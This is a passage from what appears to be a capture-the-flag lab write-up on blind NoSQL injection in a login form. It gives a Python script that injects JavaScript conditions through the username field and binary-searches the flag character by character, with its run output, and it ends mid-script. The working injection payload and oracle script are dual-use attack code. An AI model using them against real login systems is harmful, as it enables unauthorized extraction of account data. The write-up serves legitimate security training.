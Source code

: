 ```python
        elif oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) < %d' % (i, mid)):
            high = mid - 1 # If ASCII value of username at index 'i' > midpoint, decrease the upper boundary and repeat
        else:
            username += chr(mid) # If ASCII value is neither higher or lower than the midpoint we found the target value
            break # Break out of the loop
    i += 1 # Increment the index counter (start work on the next character)
assert (oracle('this.username == `%s`' % username) == True)
print("---- Binary search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)

```

Running the modified script results in a reduction from `1678` requests to only `286`, and in terms of time from `2 minutes and 40 seconds` to `24 seconds`! This doesn't make a huge difference when dumping small strings of data like a username, but if we wanted to extract more data you can probably imagine how much time this would save.

```shell
time python3 mangoonline-exploit.py

---- Binary search ----
Username: HTB{...SNIP...}
Requests: 286

real    0m24.186s
user    0m0.410s
sys     0m0.044s

```

* * *

## The finished script

The complete script, including both algorithms, looks like this:

```python
#!/usr/bin/python3

import requests
from urllib.parse import quote_plus

# Oracle (answers True or False)
num_req = 0
def oracle(r):
    global num_req
    num_req += 1
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers={"Content-Type":"application/x-www-form-urlencoded"},
        data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""=="'))
    )
    return "Logged in as" in r.text

# Ensure the oracle is working correctly
assert (oracle('false') == False)
assert (oracle('true') == True)

# Dump the username ('regular' search)
num_req = 0 # Set the request counter to 0
username = "HTB{" # Known beginning of username
```